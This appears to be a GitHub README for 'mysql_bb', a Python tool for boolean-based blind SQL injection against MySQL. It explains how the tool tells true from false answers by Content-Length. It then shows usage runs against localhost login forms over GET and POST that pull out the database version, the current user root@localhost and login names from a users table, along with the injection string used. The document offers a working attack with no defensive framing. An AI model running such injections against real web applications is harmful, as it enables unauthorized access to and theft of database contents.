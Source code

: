 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
#Injection into GET "http://localhost/login?username=test&password=test"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET --sql "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET --sql "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET --sql "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

#Injection into POST "http://localhost/login" with x-www-form-urlencoded body "username=test&password=test"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST --sql "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```

## TODO
- Support different content-types for POST requests;
